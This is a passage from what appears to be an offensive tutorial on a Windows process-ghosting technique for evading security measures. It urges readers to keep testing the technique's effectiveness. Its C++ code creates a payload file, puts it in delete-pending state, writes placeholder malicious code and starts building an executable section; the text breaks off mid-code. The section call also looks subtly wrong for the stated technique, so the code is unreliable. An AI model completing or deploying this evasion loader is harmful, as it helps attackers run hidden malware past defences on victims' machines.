 **Stay Updated:** As Windows evolves, so do its security measures. Stay updated with the latest Windows versions and test the technique regularly to ensure its effectiveness.

```
#include <windows.h>

#include <iostream>

int main() {

    // Step 1: Create an empty payload file

    HANDLE hFile = CreateFile(L"payload.exe", GENERIC_WRITE, 0, NULL, CREATE_NEW, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFile == INVALID_HANDLE_VALUE) {

        std::cerr << "Failed to create payload file." << std::endl;

        return 1;

    }

    // Step 2: Mark the file for deletion (delete-pending state)

    FILE_DISPOSITION_INFO dispositionInfo = { TRUE };

    if (!SetFileInformationByHandle(hFile, FileDispositionInfo, &dispositionInfo, sizeof(dispositionInfo))) {

        std::cerr << "Failed to mark file for deletion." << std::endl;

        CloseHandle(hFile);

        return 1;

    }

    // Step 3: Write the attacker code to the file

    const char* maliciousCode = "...";  // Replace with actual malicious code

    DWORD bytesWritten;

    if (!WriteFile(hFile, maliciousCode, strlen(maliciousCode), &bytesWritten, NULL)) {

        std::cerr << "Failed to write to payload file." << std::endl;

        CloseHandle(hFile);

        return 1;

    }

    // Step 4: Create an image section from the file

    HANDLE hSection;

    LARGE_INTEGER maxSize;

    maxSize.QuadPart = strlen(maliciousCode);

    if (NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &maxSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, hFile) != STATUS_SUCCESS) {
```